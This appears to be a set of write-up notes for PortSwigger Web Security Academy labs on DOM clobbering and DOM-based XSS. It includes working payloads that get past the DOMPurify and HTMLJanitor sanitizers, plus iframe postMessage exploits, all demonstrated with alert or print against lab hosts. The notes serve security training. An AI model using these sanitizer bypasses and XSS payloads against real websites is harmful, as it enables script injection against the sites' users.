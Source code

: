 ### LAB: Exploiting DOM clobbering to enable XSS
The `loadCommentsWithDomClobbering.js` will inject `defaultAvatar.avatar` into the `src` attribute of the `<img>`. In order to toggle the `alert()` function we need to manipulate the value of `defaultAvatar.avatar` by using this payload:

     <a id="defaultAvatar"><a id="defaultAvatar" name="avatar" href='cid:"onerror=alert(1)//'></a></a>

Since there are two `<a>` elements with the same `id="defaultAvatar"`, the DOM will create a collection (HTMLCollection) instead of a single element. Accessing `window.defaultAvatar` will return a collection of these elements, not just one:

    HTMLCollection(2) [ <a id="defaultAvatar">, <a id="defaultAvatar" name="avatar" href="cid:'onerror=alert(1)//"> ]

The second anchor tag has `name="avatar"`, which means JavaScript treats it as a property. `window.defaultAvatar.avatar` now resolves to the `href` of the second anchor element.

    'cid:"onerror=alert(1)//'

Notice that the `comment.body` is sanitized by `DOMPurify.sanitize()`. To bypass that, we use `cid:` protocol, which does not URL-encode double-quotes. Therefore, makes it possible for us to break out of the `src` attribute and manipulate the `<img>` tag:

    <img class="avatar" src="cid:" onerror="alert(1)//">

### LAB: Clobbering DOM attributes to bypass HTML filters
Notice the HTMLJanitor parsing input function contains the same flaw as described in the `#DOM clobbering` section. First make use of that and post a comment with this body:

    <form id=x onfocus=print()><input id=attributes/></form>

Next use the exploit server and send this to the victim:

    <iframe src="https://0aac00cb03da876a80efc13d00ed00e4.web-security-academy.net/post?postId=5" onload="setTimeout(()=>{if(this.src.indexOf('#x') == -1) this.src+='#x'}, 500)">

The victim will first view the page that contains the XSS. Then after 500ms the fragment `#x` will be appended to the src and focus on the `<form>` which triggers the `print()` function.

### LAB: DOM XSS using web messages
When the `iframe` loads, the `postMessage()` method sends a web message to the home page and insert it to the DOM:

    <iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

### LAB: DOM XSS using web messages and a JavaScript URL
Same as above lab but make use of the executing of javascript inside an `href` tag and bypassing the check for the existence of 'http:' or 'https:'.

    <iframe
        id="myIframe"
        src="https://0aba00b00421358080e3f3b800cd00cb.web-security-academy.net/"
        onload="sendMessage()"
    ></iframe>
    <script>
        function sendMessage() {
            document.getElementById('myIframe').contentWindow.postMessage("javascript:print()-'http:';", '*');
        }
    </script>
